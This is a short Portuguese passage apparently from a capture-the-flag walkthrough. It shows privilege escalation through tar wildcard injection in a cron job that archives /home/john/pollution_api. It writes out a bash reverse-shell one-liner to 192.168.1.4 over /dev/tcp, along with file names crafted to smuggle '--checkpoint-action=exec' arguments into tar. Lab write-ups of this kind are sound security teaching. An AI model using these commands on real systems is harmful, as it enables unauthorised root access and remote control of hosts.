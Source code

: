 <figure><img src="./assets/35.png" alt=""><figcaption></figcaption></figure>

Essa crontab está entrando no diretório "**/home/john/pollution\_api/**" e compactando todos os arquivos usando o "**tar**". Podemos usar uma técnica chamada de wildcard injection para conseguirmos injetar argumentos no "**tar**". Verificando o diretório "**/home/john**" vemos que não existe o diretório "**pollution\_api**", então precisamos cria-lo e configurar permissões para que o usuário victor consiga acessá-lo.

```
mkdir /home/john/pollution_api && chmod +x /home/john && chmod +x /home/john/pollution_api
```

Com o diretório criado, vamos criar os arquivos necessários para injetar argumentos no "**tar**":

```
cd /home/john/pollution_api && echo -e \#\!'/bin/bash\n/bin/bash -c "bash -i >& /dev/tcp/192.168.1.4/80 0>&1"' > shell.sh && echo "" > "--checkpoint-action=exec=sh shell.sh" && echo "" > --checkpoint=1
```

<figure><img src="./assets/36.png" alt=""><figcaption></figcaption></figure>
